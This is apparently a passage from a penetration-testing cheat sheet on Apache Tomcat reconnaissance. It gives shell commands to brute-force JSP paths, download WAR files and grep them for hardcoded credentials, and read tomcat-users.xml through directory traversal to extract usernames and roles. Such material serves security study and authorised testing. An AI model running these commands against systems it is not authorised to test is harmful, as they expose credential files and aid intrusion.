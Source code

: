```bash
  -w /usr/share/seclists/Discovery/Web-Content/Common-JSP-Filenames.txt \
  -x jsp,jspx

# Look for admin/management JSPs:
admin_jsps=(
    "/admin.jsp"
    "/login.jsp"
    "/manager.jsp"
    "/console.jsp"
    "/dashboard.jsp"
    "/config.jsp"
)
```

#### WAR File Analysis
```bash
# If WAR files are accessible, download and analyze:
wget http://target.com:8080/applications/app.war

# Extract and examine WAR contents:
unzip app.war -d app_extracted/
cd app_extracted/

# Key files to examine:
cat WEB-INF/web.xml              # Deployment descriptor
ls -la WEB-INF/classes/          # Compiled Java classes
ls -la WEB-INF/lib/              # JAR dependencies
cat META-INF/MANIFEST.MF         # Manifest information

# Look for hardcoded credentials:
grep -r -i "password\|secret\|key" .
grep -r -i "jdbc\|database\|conn" .
```

---

## Configuration File Analysis

### tomcat-users.xml Reconnaissance

#### User and Role Analysis
```bash
# If accessible via LFI or directory traversal:
curl -s http://target.com:8080/../../conf/tomcat-users.xml

# Common role permissions breakdown:
# manager-gui    - Full HTML interface access + status pages
# manager-script - HTTP API access + status pages (automation)
# manager-jmx    - JMX proxy access + status pages (monitoring)
# manager-status - Status pages only (limited access)
# admin-gui      - Host manager access (virtual host management)

# Parse users and roles from tomcat-users.xml:
curl -s http://target.com:8080/conf/tomcat-users.xml | \
  grep -oP 'username="[^"]*"' | cut -d'"' -f2

curl -s http://target.com:8080/conf/tomcat-users.xml | \
  grep -oP 'roles="[^"]*"' | cut -d'"' -f2
```
